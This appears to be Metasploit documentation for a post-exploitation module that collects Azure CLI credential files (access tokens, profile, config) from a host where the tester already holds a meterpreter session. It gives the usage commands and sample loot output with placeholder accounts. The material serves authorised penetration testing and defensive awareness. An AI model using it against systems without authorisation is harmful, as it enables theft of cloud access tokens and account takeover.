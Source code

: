 ## Vulnerable Application

  Any windows or linux system with a `meterpreter` session and [Azure CLI 2.0](https://docs.microsoft.com/en-us/cli/azure/?view=azure-cli-latest).

  Successfully tested on:

  * Azure CLI 2.0.33 on Windows Server 2012 R2
  * azure-cli 2.0.33-1.el7 on openSUSE Tumbleweed 20180517

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install Azure CLI
  2. Start msfconsole
  3. Get a `meterpreter` session on some host.
  4. Do: ```use post/multi/gather/azure_cli_creds```
  5. Do: ```set SESSION [SESSION_ID]```
  6. Do: ```run```
  7. If the system has readable configuration files for Azure CLI, they will stored in loot and a summary will be printed to the screen.

## Options

  None.

## Scenarios

   ```
msf5 post(multi/gather/azure_cli_creds) > run

[+] /home/james/.azure/accessTokens.json stored to /home/james/.msf4/loot/20180528233056_default_192.168.1.49_azurecli.jwt_tok_029844.txt
[+] /home/james/.azure/azureProfile.json stored to /home/james/.msf4/loot/20180528233056_default_192.168.1.49_azurecli.azure_p_897386.txt
[+] /home/james/.azure/config stored to /home/james/.msf4/loot/20180528233056_default_192.168.1.49_azurecli.config_976372.txt
Subscriptions
=============

Source                                Account Name              Username                  Cloud Name
------                                ------------              --------                  ----------
/home/james/.azure/azureProfile.json  Some Azure Account Name   example.user@example.com  AzureCloud
/home/james/.azure/azureProfile.json  Some Azure Account Name2  example.user@example.com  AzureCloud


Tokens
======

Source                                Username                  Count
------                                --------                  -----
/home/james/.azure/accessTokens.json  example.user@example.com  2

[*] Post module execution completed

   ```
